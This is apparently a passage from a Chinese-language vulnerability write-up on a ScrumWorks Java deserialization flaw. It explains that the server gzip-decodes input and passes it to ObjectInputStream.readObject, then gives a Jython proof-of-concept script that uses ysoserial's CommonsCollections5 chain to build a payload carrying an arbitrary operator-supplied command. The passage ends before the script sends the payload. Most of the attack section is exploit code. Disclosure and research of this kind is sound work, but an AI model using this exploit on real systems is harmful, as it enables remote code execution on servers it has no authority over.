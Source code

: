 ```
        sendResponse(paramHttpServletResponse, ServerException.getMisconfiguredServerException((Exception)localObject1));
      }
    }
    finally
    {
      localObjectInputStream.close();
    }
  }
 
---
```

可以看到首先对数据进行了zip解码，然后使用ObjectInputStream的readObject读取反序列化对象，造成反序列化漏洞。而ScrumWorks使用了第三方库Apache CommonsCollections (3.2.1)，利用ysoserial生产payload即可利用该漏洞。

#### POC

```python
#
# Scrumworks Java Deserialization Remote Code Execution PoC
# 
import httplib
import urllib
import sys

import binascii

# load the ysoserial.jar file 
sys.path.append("./ysoserial.jar")

from ysoserial import *
from ysoserial.payloads import *

# ZIP support
from java.io import ByteArrayOutputStream
from java.io import ObjectOutputStream
from java.util.zip import GZIPOutputStream


print "Scrumworks Java Deserialization Remote Code Execution PoC"
print "========================================================="

if len(sys.argv) != 4:
  print "usage: " + sys.argv[0] + " host port command\n"  
  exit(3)

payloadName = "CommonsCollections5"
payloadClass = ObjectPayload.Utils.getPayloadClass(payloadName);

if payloadClass is None:
  print("Can't load ysoserial payload class")
  exit(2);

# serialize payload
payload = payloadClass.newInstance()
exploitObject = payload.getObject(sys.argv[3])

# create streams
byteStream = ByteArrayOutputStream()
zipStream = GZIPOutputStream(byteStream)
objectStream = ObjectOutputStream(zipStream) 
objectStream.writeObject(exploitObject)

```
